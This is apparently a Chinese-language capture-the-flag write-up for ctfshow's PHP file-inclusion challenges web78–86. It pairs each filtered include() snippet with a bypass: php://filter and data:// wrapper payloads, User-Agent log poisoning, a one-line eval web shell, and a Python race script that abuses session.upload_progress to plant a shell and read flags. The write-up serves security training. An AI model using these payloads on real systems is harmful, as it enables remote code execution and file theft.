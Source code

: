# 原创
：  ctfshow web入门-文件包含

# ctfshow web入门-文件包含

#### ctfshow web入门-文件包含

## web78

> 
filter伪协议读取：`?file=php://filter/read=convert.base64-encode/resource=flag.php`，base64解码


```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210623194836880.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210623194930889.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## web79

> 
由于过滤了 `php`，采用data伪协议读取：


```
?file=data://text/plain,&lt;?= `tac f*`;?&gt;
或者
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

```

```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}

```

## web80

> 
由于 `php` 和 `data`都被过滤了，结合题目提示我们文件包含开始，利用日志包含绕过，将执行的命令插入日志中，在User-Agent插入 `&lt;?php echo system('ls');?&gt;`查找flag文件名，再读取flag


```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}

```

```
shell.txt内容：
&lt;?php eval($_POST['cmd']);?&gt;

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210623202300993.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021062320230731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## web81

> 
过滤了 `php`、`data` 和 `:`，参照 web81，利用日志包含绕过，将执行的命令插入日志中


```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210623203835648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/202106232038430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## web82-86

> 
利用session.upload_progress进行文件包含和反序列化渗透


```
import requests
import threading
import sys
session=requests.session()
sess='H3rmesk1t'
url1="http://dae1ae47-1634-456b-b6bb-6046960b2e14.challenge.ctf.show:8080/"
url2='http://dae1ae47-1634-456b-b6bb-6046960b2e14.challenge.ctf.show:8080/?file=/tmp/sess_'+sess
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'&lt;?php eval($_POST[1]);?&gt;'
}
data2={
	'1':'system("cat f*");'
}
file={
	'file':'abc'
}
cookies={
	'PHPSESSID': sess
}
def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.post(url2,data=data2)
		if 'ctfshow{' in r.text:
			print(r.text)
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()

```
